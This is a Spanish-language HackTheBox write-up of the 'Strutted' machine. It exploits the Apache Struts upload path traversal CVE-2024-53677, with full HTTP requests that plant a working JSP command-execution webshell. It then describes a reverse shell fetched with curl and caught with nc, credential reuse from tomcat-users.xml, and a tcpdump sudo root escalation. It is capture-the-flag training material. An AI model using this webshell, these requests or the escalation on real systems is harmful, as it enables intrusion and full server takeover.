


# STRUTTED [HACKTHEBOX] / Medium
### (Apache Struts Path Traversal Exploitation, File Overwrite with OGNL Binding (Upload Interceptor), use of Caido Tool, JSP WebShell Upload, NoNewPrivileges parameter blocking SSH, TCPDump Sudoers PrivEsc)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

# Nmap Scan

El escaneo nos reporta 2 puertos:

- **22** -> SSH
- **80** -> HTTP


Como nos pone que la web redirige al dominio `strutted.htb`, vamos a añadirlo al `/etc/hosts`:


# Web Enumeration

Una vez hecho el escaneo, si entramos a la web y le echamos un ojo, vemos que podemos adjuntar imágenes y nos las sube al servidor, también podemos ver un botón de "Descarga" arriba a la derecha de la web:


Si le damos, nos descarga un .zip:


Lo descomprimimos  y vemos que hay muchas cosas:


Si hacemos un `grep` de forma recursiva para encontrar frases que contengan "pass", nos da unos resultados:


Ya tenemos un posible usuario y contraseña, que de momento no nos sirve para nada ya que no conecta por ssh, pero igual no sirve para después. si exploramos un poco más, dentro de la carpeta `strutted` del repositorio, vemos un archivo llamado "pom.xml", el cual si lo buscamos por la web:


De esta manera, podremos ver las versiones de todo lo que corre la web:


Como lo que nos interesa es Struts ya que es el esqueleto de la web y la base del resto:



Además, si exploramos un poco, vemos que nos aparecen varios CVEs:


Ambas vulnerabilidades son Path Traversal, yo utilizaré la que tiene el CVE `CVE-2024-53677`. Si exploramos un poco el primer repositorio, específicamente el archivo .py, y analizamos el código, vemos que nos habla de OGNL binding y nos introduce una nueva variable en la solicitud web (top.UploadFileName):


Si buscamos en internet que significan estas cosas, nos salen varios resultados. Por una parte OGNL es el lenguaje de expresiones que usa la web:


Si exploramos un poco más sobre OGNL y Struts, como funcionan en conjunto, nos encontramos con la web https://struts.apache.org/core-developers/interceptors.html, la cual explica a la perfección una cosa llamada "Interceptores", de los cuales viene esta vulnerabilidad. Resulta que los interceptores capturan la solicitud web antes de ser renderizada, lo cual tiene sentido por el nombre que le han dado a la utilidad:


Si exploramos más la web, nos encontramos con el "UploadInterceptor":


# CVE-2024-53677 Path Traversal Exploitation

Una vez visto el funcionamiento de todo esto, vamos a explotar la vulnerabilidad. Si recordamos el script de python, utilizaban el parámetro `top.uploadFileName` en la solicitud web para cambiar el nombre después de ser procesado, mediante el Interceptor, así que nos abrimos el Caido y probamos a subir una imagen en la web para ver la solicitud y compararla:

```bash
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://strutted.htb/
Content-Type: multipart/form-data; boundary=---------------------------73222280540321048361232719302
Content-Length: 166165
Origin: http://strutted.htb
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: JSESSIONID=EC9DB60A6FF74AA56A49D7B878B20D67
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------73222280540321048361232719302
Content-Disposition: form-data; name="Upload"; filename="pngimg.com - linux_PNG47.png"
Content-Type: image/png

‰PNG
Probando
-----------------------------73222280540321048361232719302
Content-Disposition: form-data; name="top.uploadFileName"

test.txt
-----------------------------73222280540321048361232719302--
```

Una vez adaptada la solicitud para abusar de la vulnerabilidad, la enviamos y probamos a meternos en el directorio de subida, llamado, en mi caso `uploads/20250327_122833/test.txt`:




Ahora vamos a probar a subir una webshell jsp, efectuando también el Path Traversal:

```bash
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://strutted.htb/
Content-Type: multipart/form-data; boundary=---------------------------73222280540321048361232719302
Content-Length: 166165
Origin: http://strutted.htb
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: JSESSIONID=EC9DB60A6FF74AA56A49D7B878B20D67
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------73222280540321048361232719302
Content-Disposition: form-data; name="Upload"; filename="pngimg.com - linux_PNG47.png"
Content-Type: image/png

‰PNG
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>


-----------------------------73222280540321048361232719302
Content-Disposition: form-data; name="top.uploadFileName"

../../test.jsp
-----------------------------73222280540321048361232719302--
```

Ahora si nos vamos a `http://strutted.htb/test.jsp`, vemos la webshell:


Vamos a intentar generar una reverse shell, probando, de la única manera que me dejó conectarme a la máquina víctima, fue descargando el archivo y luego ejecutándolo mediante comandos:


Ahora ejecutamos un curl en la webshell y lo guardamos en `/tmp`, dándole permisos de ejecución, después, nos ponemos en escucha mediante `nc -nlvp 443` y, acto seguido, ejecutamos el script guardado en /tmp:


# User Flag


Y hacemos el tratamiento de la TTY:


Si listamos permisos de sudoers, permisos SUID y capabilities, no encontramos nada, tampoco encontramos ningún puerto extraño abierto en local ni ninguna tarea cron interesante. Si recordamos el .zip que descargamos al principio, nos encontramos con un archivo llamado "tomcat-users.xml", vamos a probar a buscarlo en el sistema, quizás nos encontramos otra contraseña:

```bash
find / -name tomcat-users.xml 2>/dev/null
```

Si le hacemos un cat, vemos que nos saca una contraseña:


Si nos vamos al directorio `/home` y hacemos un `ls`, vemos que hay otro usuario llamado "james", si intentamos migrar a ese usuario con la contraseña que tenemos, vemos un error:


Pero si probamos la misma contraseña y el mismo usuario pero entrando mediante ssh, vemos que funciona:


Si nos vamos al directorio `/home/james`, tenemos la flag de user.


# Root Flag (Privilege Escalation)

La escalada ahora es muy sencilla, con hacer un `sudo -l`, ya nos dice que podemos ejecutar `/usr/sbin/tcpdump` con permisos de root:


Si buscamos esto por https://gtfobins.github.io, nos da las instrucciones para privesc:

```bash
COMMAND='[COMANDO_COMO_ROOT]'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```


Ahora si ejecutamos un `/bin/bash -p`, ya somos root:


Por último, si nos vamos al directorio `/root`, encontramos la flag de root.


# Extra

Si nos fijamos en los servicios que se están ejecutando con el comando `systemctl --state running --type service`, vemos que hay uno llamado "tomcat9.service":


Si le echamos un ojo a este servicio con `systemctl status tomcat9.service`, vemos la ruta en donde está:


Y si le hacemos un cat, vemos que, en el apartado "# Security", hay un parámetro llamado "NoNewPrivileges" y está configurado en "true":


Si lo buscamos en Internet:


En conclusión. El parámetro "NoNewPrivileges" configurado como "true", impide que los servicios ganen nuevos privilegios, como en el apartado Security estaba configurado para impedir al usuario "tomcat" generar nuevos privilegios, le impedía el uso del comando `su` para cambiar de usuario, ya que "su" tiene permisos SUID, pero el propietario es root.

# ./PWNED